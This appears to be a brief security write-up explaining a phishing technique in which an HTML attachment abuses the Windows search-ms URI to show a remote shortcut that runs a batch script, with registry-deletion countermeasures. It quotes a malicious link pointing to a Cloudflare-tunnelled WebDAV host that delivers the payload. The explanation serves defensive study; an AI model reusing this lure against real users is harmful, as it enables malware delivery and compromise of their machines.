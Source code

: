 # Explanation

- HTML attachments that abuse the Windows search protocol (search-ms URI) to push batch files hosted on remote servers that deliver malware.
- Windows Search protocol is a Uniform Resource Identifier (URI) that enables applications to open Windows Explorer to perform searches using specific parameters.

### Steps in the exploit
1. Victim receives an email with a zip file.
2. Zip file contains a HTML attachment disguised as an invoice document.
3. HTML file has the following tag which causes the browser to automatically open a malicious URL.
```HTML
<meta http-equiv= "refresh">
```
4. If the browser blocks this, an alternative clickable link is available on the webpage for the user to click.
5. The URL causes the windows search protocol to perform a search on a remote host using the following parameters
	1. Query: Searches for items labeled "INVOICE."
	2. Crumb: Specifies the search scope, pointing to a malicious server via Cloudflare.
	3. Displayname: Renames the search display to "Downloads" to mimic a legitimate interface.
	4. Location: Uses Cloudflare's tunneling service to mask the server, making it look legitimate by presenting remote resources as local files.
```HTML
<ps><a href= "search: query= INVOICE&amp; crumb=location:\\tender-coding-bi-associate.trycloudflare.com@SSL \DavWWWRoot\google\INVOICE&amp; displayname ></a></p>
```
6. Search retrieves a single LNK file hosted on the remote server pointing to a BAT script.
7. If victim clicks on the shortcut, the script runs on the local machine.


### Suggested countermeasures
- Deleting registry entries associated with the search-ms/search URI protocol
```
reg delete HKEY_CLASSES_ROOT\search /f
reg delete HKEY_CLASSES_ROOT\search-ms /f
```


